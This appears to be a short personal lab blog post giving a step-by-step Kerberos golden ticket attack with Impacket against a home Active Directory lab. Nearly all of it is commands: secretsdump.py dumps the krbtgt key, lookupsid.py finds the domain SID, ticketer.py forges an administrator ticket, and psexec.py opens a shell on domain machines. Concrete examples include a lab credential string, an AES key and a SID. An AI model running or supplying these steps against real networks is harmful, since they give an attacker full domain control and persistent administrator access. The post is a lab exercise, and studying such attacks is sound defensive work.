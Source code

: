 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details><summary>Use secretsdump.py to obtain the aes256 key for the krbtgt account</summary>secretsdump.py domain/user:password dc-ip <br>secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250</details>
<br>
```
  
```
<br>

<br>
<details>
<summary>Use lookupsid.py to find the domain SID</summary>
<br>
```
  Lookupsid.py <domain>/<user>:<password> <dc-ip>
```
<br>
```
  Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
<br>
</details>
<br>
<details>
<summary>Use ticketer.py to create TGT</summary>
<br>
```
  ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
```
<br>
```
  ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
```
<br>
</details>
<br>
<details>
<summary>Export KRB5CCNAME to created ticket location</summary>
<br>
```
  export KRB5CCNAME=/home/kali/Documents/administrator.ccache
```
<br>
</details>
<br>
<details>
<summary>Use psexec to obtain a shell on any machine in the domain</summary>
<br>
```
  psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
```
<br>
```
  psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
```
<br>
</details>
